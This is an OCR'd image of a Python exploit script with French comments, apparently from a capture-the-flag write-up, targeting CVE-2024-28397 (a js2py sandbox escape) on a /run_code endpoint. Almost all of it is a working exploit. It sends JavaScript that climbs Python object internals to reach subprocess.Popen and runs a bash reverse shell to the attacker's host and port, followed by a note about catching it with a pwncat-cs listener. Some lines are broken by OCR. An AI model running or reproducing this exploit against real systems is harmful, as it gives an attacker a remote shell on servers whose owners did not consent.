 ```python
```python 
#!/usr/bin/env python3  
  
import requests  
import json  
import argparse  
  
parser = argparse.ArgumentParser(description="CVE-2024-28397 - Remotely  
")  
parser.add_argument("--url", required=True, help="URL cible, ex: http:/  
/10.10.11.82:8000/run_code")  
parser.add_argument("--lhost", required=True, help="Adresse IP locale")  
parser.add_argument("--lport", required=True, help="Port local")  
args = parser.parse_args()  
  
payload = f"""  
let cmd = "bash -c 'bash -i >& /dev/tcp/{args.lhost}/{args.lport} 0>&1'  
"; //modifié stdout ignoré si pas de shell  
let hacked, bymarve, n11  
let getattr, obj  
  
hacked = Object.getOwnPropertyNames({{}});  
bymarve = hacked.__getattribute__;  
n11 = bymarve("__getattribute__");  
obj = n11("__class__").__base__;  
getattr = obj.__getattribute__;  
  
function findpopen(o) {{  
   let result;  
   for(let i in o.__subclasses__()) {{  
       let item = o.__subclasses__()[i];  
       if(item.__module__ == "subprocess" && item.__name__ == "Popen")  
{{  
           if(item.__name__ != "type" && (result = findpopen(item))) {  
{  
               return result;  
           }}  
           return item;  
       }}  
   }}  
}}  
  
// Exécution du reverse shell via subprocess.Popen  
let result = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true  
).communicate();  
console.log(result);  
result;  
"""  
  
# Préparation de la requête HTTP  
code = { "code": payload }  
headers = { "Content-Type": "application/json" }  
  
# Envoi du payload  
print(f"[+] Envoi du payload vers {args.url}")  
print(f"[+] Reverse shell sur {args.lhost}:{args.lport}")  
print("[!] Keep calm & privesc...")  
response = requests.post(args.url, data=json.dumps(code), headers=heade  
rs)
```
On lance le reverse shell et un listener via pwncat-cs
